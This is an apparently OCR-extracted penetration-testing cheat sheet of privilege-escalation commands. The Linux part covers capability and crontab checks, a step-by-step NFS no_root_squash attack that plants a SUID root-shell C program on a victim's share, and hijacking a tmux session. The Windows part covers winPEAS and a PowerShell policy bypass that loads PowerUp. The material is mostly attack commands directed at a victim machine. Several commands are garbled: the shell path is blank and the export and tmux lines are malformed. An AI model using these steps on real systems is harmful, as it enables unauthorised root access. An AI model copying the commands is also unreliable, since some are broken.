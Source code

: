 - Find capabilities

```  
getcap -r / 2>/dev/null
```

- Find Crontab

```  
cat /etc/crontab
```

- Find NFS

```  
#NFS are stored in here
cat /etc/exports

#enumerating mountable shares of victim
showmount -e <IP>

#mount one of the no_root_squash shares to attacking machine
mkdir /tmp/anynameyouwant
mount -o rw <IP>:/nameofshare /tmp/anynameyouwant

#after that we create nfs.c using nano in attacker machine 
int main(){
setgid(0);
setuid(0);
system("/bin/  ");
return 0;
}
#now we compile the c file 
gcc nfs.c -o nfs -w

#add S=SUID permission
chmod +s nfs 

# GO TO VICTIM MACHINE AND NAVIGATE TO SHARE AND EXECUTE THE PROGRAM 
```

- TMUX 

```  
ps aux | grep tmux #To find the tmux folder where sessions are stored in
export $TERM = xterm #stabilizing the shell 
tmux -S attach <name_of_session> #Make sure you are in the same directory where the session is stored in
```

### Windows privelege escalation

- automated scripts

```  
winPEAS.exe
windows-privesc-check2.exe
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
```
